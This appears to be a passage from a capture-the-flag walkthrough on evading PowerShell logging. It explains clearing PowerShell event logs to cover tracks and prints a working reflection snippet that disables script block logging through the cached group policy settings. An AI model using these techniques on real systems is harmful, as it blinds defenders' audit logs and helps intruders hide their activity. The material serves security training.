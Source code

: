 Great! From now on our session is silent, but what about those pesky  logs that are generated when the script ran? From the information  provided we know that logs are not being forwarded so we can delete any  4104 or 4103 logs that were generated. Because the internet connection  is not originating from PowerShell we don't need to worry about it being disturbed in our silent session. To remove the logs, we can use the *Event Viewer* GUI or *Remove-EventLog* in PowerShell. PowerShell script block logs are located in *Microsoft/Windows/PowerShell/Operational* or *Microsoft-Windows-PowerShell.* You can then select *Clear Log* under actions in the GUI or run the PowerShell cmdlet to remove the necessary logs. 

At this point, we should have all the parameters met:

- Disable logging where needed
- Maintain environment integrity
- Clean our tracks

Now we can test our methodology by running the binary "agent.exe". If properly implemented a flag will be returned to the desktop. If not properly implemented, *"Binary leaked, you got caught"* will appear, meaning that the binary appeared in the logs at some point, and you failed the scenario.

```powershell
$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
  If ($GroupPolicyField) {
      $GroupPolicyCache = $GroupPolicyField.GetValue($null);
      If ($GroupPolicyCache['ScriptBlockLogging']) {
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
      }
      $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
      $val.Add('EnableScriptBlockLogging', 0);
      $val.Add('EnableScriptBlockInvocationLogging', 0);
      $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
  };
```

